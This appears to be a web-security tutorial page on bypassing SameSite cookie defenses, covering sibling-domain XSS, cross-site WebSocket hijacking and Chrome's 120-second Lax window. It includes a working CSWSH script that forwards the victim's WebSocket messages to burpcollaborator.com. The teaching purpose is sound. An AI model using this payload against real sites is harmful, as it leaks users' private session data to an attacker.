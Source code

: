 ```html
```

## Bypassing SameSite restrictions via vulnerable sibling domains

Whether you're testing someone else's website or trying to secure your own, it's essential to keep in mind that a request can still be same-site even if it's issued cross-origin. 

Make sure you thoroughly audit all of the available attack surface, including any sibling domains. In particular, vulnerabilities that enable you to elicit an arbitrary secondary request, such as XSS, can compromise site-based defenses completely, exposing all of the site's domains to cross-site attacks. 

In addition to classic CSRF, don't forget that if the target website supports WebSockets, this functionality might be vulnerable to cross-site WebSocket hijacking (CSWSH), which is essentially just a CSRF attack targeting a WebSocket handshake.

### Cross-Site WebSocket Hijacking (CSWSH)

Example of CSWSH payload:

```html
<script>
    var ws = new WebSocket('wss://example.com/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://burpcollaborator.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

This payload needs to be exploit from a XSS in order to bypass `SameSite=Strict` cookie attribute.

## Bypassing SameSite Lax restrictions with newly issued cookies

Cookies with `Lax` SameSite restrictions aren't normally sent in any cross-site `POST` requests, but there are some exceptions.

As mentioned earlier, if a website doesn't include a `SameSite` attribute when setting a cookie, Chrome automatically applies Lax restrictions by default. However, to avoid breaking single sign-on (SSO) mechanisms, it doesn't actually enforce these restrictions for the first 120 seconds on top-level `POST` requests. As a result, there is a two-minute window in which users may be susceptible to cross-site attacks.

> **Note**:  This two-minute window does not apply to cookies that were explicitly set with the `SameSite=Lax` attribute.

It's somewhat impractical to try timing the attack to fall within this short window. On the other hand, if you can find a gadget on the site that enables you to force the victim to be issued a new session cookie, you can preemptively refresh their cookie before following up with the main attack. For example, completing an OAuth-based login flow may result in a new session each time as the OAuth service doesn't necessarily know whether the user is still logged in to the target site.
